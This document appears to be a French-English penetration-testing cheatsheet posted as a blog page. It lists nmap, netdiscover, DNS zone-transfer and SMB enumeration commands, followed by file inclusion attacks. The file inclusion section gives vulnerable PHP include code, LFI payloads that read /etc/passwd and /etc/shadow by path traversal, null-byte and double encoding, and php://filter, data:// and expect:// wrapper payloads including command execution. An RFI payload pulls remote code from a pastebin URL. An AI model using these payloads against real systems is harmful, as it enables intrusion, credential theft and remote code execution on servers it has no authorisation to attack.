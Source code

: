 ```yaml
---
layout: post
title: "Cheatseet"
author: "fhbapt"
permalink: /cheatseet/
---
```


## Table of Contents


### [Network](#network)  
 * [Network discovery](#network-discovery)
    * [Netdiscover](#netdiscover) 
    * [Nmap](#nmap)
  * [Services enumerations](#services)
    * [53 - DNS](#dns)
    * [139/445 - SMB](#smb)

### [Web vulnerabilities](#web)
 * [File Inclusion](#file-inclusion)
   * [LFI (Local File Inclusion)](#lfi)
   * [RFI (Remote File Inclusion)](#rfi)

## Common tools for network discovery <a name="network-discovery"></a>
In this chapter, the most common tools and commands use to dicover network architecture are presented. 

### Netdiscover commands <a name="netdiscover"></a>

> Netdiscover is an active/passive arp reconnaissance tool


```netdiscover -p``` Sniffing network trafic, Netdiscover sent anything 


```netdiscover -r 192.168.X.X/24``` Scan of subnetwork 192.168.X.X/24 by sending ARP frames


### Nmap commands <a name="nmap"></a>

```nmap -sL 192.168.X.X/24``` Permet de scanner les hôtes d'un sous réseau

```nmap -sP 192.168.X.X/24``` Lister les hôtes du réseau qui répondent à l'ICMP

```nmap -sU 192.168.X.X``` Scan d'une machine pour lister ses ports ouverts en UDP

```nmap -Pn -A 192.168.X.X(/24) --open``` Scan des machines ou réseau avec la liste des ports ouverts

```nmap -Pn --script=smb-enum-shares -p 445 192.168.X.X```

## Services enumerations <a name="services"></a>

### 53 - DNS <a name="dns"></a>

> Un transfert de zone complet (AXFR) consiste pour un serveur DNS esclave à demander une copie de zone de à un serveur maitre qui le permet. Cette fonctionnalité est reprise par l'attaquant pour découvrir des sous domaines.

Commands DIG :

```dig axfr @dns-server nom-de-domaine``` 

### 139/445 - SMB <a name="smb"></a>

SMB Commands :

```smbclient -U guest //192.168.X.X/share``` Télécharge les fichiers sur un serveur SMB

```smbget -U guest -R smb://192.168.X.X/share ``` Télécharge les fichiers sur un serveur SMB

## File Inclusion <a name="file-inclusion"></a>

### LFI (Local File Inclusion) <a name="lfi"></a>

Vulnérabilité permettant l'inclusion de fichier local.

Exemple de LFI :

```php
<?php @include("./page/".$_GET['page']) ?>
```

**Basic LFI**

```https://fhbapt.github.io/?page=index.php``` Récupération du fichier index.php

```https://fhbapt.github.io/?page=../config.php``` Récupération du fichier config.php

```https://fhbapt.github.io/?page=./../../../etc/password``` Recupération du fichier password

Les fichiers intéressants :
 * /etc/passwd
 * /etc/shadow
 * /etc/hosts
 * /etc/group
 * /proc/cmdline
 * Fichiers de logs
 * Fichiers de backups

**Null Byte, Double encoding**

```https://fhbapt.github.io/?page=etc/password%00``` Null Byte : %00

**Double Encoding**

```
https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd
```

```
https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00
```

**Wrapper php://filter**

```
https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php
```

```
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

**Wrapper data://**

```
https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
La payload est <?php phpinfo(); ?>
```

**Wrapper expect://**

```
https://fhbapt.github.io/?page=expect://ls
```

### RFI (Remote File Inclusion) <a name="rfi"></a>

Vulnérabilité permettant l'inclusion de fichier distant.

Exemple de RFI :

```php
<?php @include($_GET['page']) ?>
```

Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:

```
https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG
``` 
